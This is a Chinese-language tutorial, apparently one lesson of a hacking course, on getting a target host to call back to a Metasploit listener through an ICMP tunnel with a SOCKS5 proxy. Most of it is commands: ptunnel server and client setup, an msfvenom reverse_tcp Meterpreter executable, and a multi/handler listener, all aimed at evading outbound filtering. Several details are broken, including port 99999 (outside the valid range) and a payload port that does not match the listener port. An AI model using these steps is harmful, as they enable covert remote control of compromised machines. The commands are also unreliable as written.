










# 网络安全系统教程：P82：69. ICMP隧道转发Socks上线MSF 🛠️

在本节课中，我们将学习如何利用ICMP隧道技术，通过Socks代理转发流量，最终使目标主机上线到Metasploit框架。这是一种隐蔽的通信方式，适用于某些网络环境。

## 概述

上一节我们介绍了基础的ICMP隧道应用。本节中我们来看看如何结合Socks代理，将ICMP隧道用于更复杂的场景——转发Socks流量并上线MSF。其核心是利用工具在目标与攻击者之间建立一条通过ICMP协议封装的Socks代理通道。

## 核心原理与差异

此方法与之前介绍的ICMP隧道直接转发有不同之处。主要区别在于**生成Payload（负载）的阶段**。

我们的目标是：通过Socks5代理的方式转发请求。具体来说，攻击者会在本地启动一个Socks5服务，然后让目标主机上运行的Payload去连接这个服务，并将所有流量通过ICMP隧道转发回攻击者的MSF监听器。

## 操作步骤详解

以下是实现此过程的具体步骤。

### 第一步：启动服务端

首先，在攻击者机器上启动ICMP隧道服务端。此步骤与之前课程相同。

```bash
# 在攻击机执行，启动ICMP隧道服务端
./ptunnel -x your_password
```



### 第二步：启动客户端（含Socks参数）



接着，在目标机器或已控制的中继主机上启动ICMP隧道客户端。**关键的不同点在于需要添加 `-s` 参数**。

```bash
# 在靶机执行，启动ICMP隧道客户端并开启Socks代理
./ptunnel -p <攻击者IP> -lp 99999 -x your_password -s
```



这里的 `-s` 参数作用是**启用Socks5代理转换**。执行此命令后，客户端会在本地监听 `99999` 端口，并在此端口启动一个Socks5服务。这个服务等待我们生成的Payload进行连接。

### 第三步：生成特制Payload

现在，我们需要使用MSFvenom生成一个特殊的Payload。这个Payload不会直接连接攻击者的IP，而是会去连接上一步在靶机本地开启的Socks5代理服务。

```bash
# 使用MSFvenom生成Payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<靶机IP> LPORT=99999 HttpProxyType=SOCKS5 HttpProxyHost=127.0.0.1 HttpProxyPort=99999 -f exe -o payload_socks.exe
```



**参数解析：**
*   `LHOST=<靶机IP>`: 这里不是攻击者IP，而是靶机自身的IP，因为Payload最终要连接本地服务。
*   `LPORT=99999`: 对应靶机本地Socks5服务监听的端口。
*   `HttpProxyType=SOCKS5`: 指定代理类型为Socks5。
*   `HttpProxyHost=127.0.0.1` 和 `HttpProxyPort=99999`: 指定Payload通过本地的Socks5代理（127.0.0.1:99999）发出连接。

### 第四步：在MSF上设置监听

在攻击者机器上启动Metasploit，设置一个与Payload中**最终目标**对应的监听器。



```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0  # 或攻击者本机IP
set LPORT 8899      # 这是Payload最终要连接的攻击者端口
exploit -j
```



### 第五步：执行与流量转发



1.  将生成的 `payload_socks.exe` 在目标主机上执行。
2.  Payload会连接靶机本地的 `127.0.0.1:99999` (Socks5服务)。
3.  靶机上的ICMP隧道客户端 (`ptunnel`) 收到Socks5服务的流量后，会通过ICMP隧道将其封装并发送给攻击者的ICMP隧道服务端。
4.  攻击者的服务端解封装后，将原始的TCP连接请求（目标是攻击者的 `LPORT 8899`）递交给本机的MSF监听器。
5.  MSF成功接收到会话，目标上线。



## 流程总结



本节课中我们一起学习了ICMP隧道结合Socks代理的上线方法。其核心流程可概括为：

**目标Payload -> 靶机本地Socks5代理 -> ICMP隧道客户端 -> (通过ICMP协议) -> 攻击者ICMP隧道服务端 -> MSF监听器**



这种方法在特定网络限制下（如只允许ICMP协议出站）提供了更大的灵活性，可以通过Socks代理转发多种类型的网络流量，而不仅仅是单一的反弹Shell。